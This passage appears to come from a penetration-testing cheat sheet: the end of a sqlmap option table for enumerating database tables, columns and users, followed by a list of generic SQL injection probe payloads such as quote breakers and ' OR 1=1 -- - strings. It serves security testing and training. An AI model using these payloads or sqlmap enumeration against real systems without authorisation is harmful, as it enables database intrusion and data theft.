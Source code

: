 | `-T TBL`                         | Specify the database table(s) to enumerate.                           |
| `-C COL`                         | Specify the database table column(s) to enumerate.                    |
| `-X EXCLUDE`                     | Exclude specified database identifiers from enumeration.              |
| `-U USER`                        | Specify the DBMS user to enumerate.                                   |

---

### Usage

- **How to Use This Table**: 
  - Refer to the commands when utilizing **sqlmap** for SQL injection testing.
  - Combine options as needed to refine your data retrieval efforts.
  - Keep this table handy during practical exercises for quick reference.

---
#### Generic SQL Injection Payloads

```
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		addition, concatenate (or space in url)
||		(double pipe) concatenate
%		wildcard attribute indicator

@variable	local variable
@@variable	global variable


# Numeric
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
```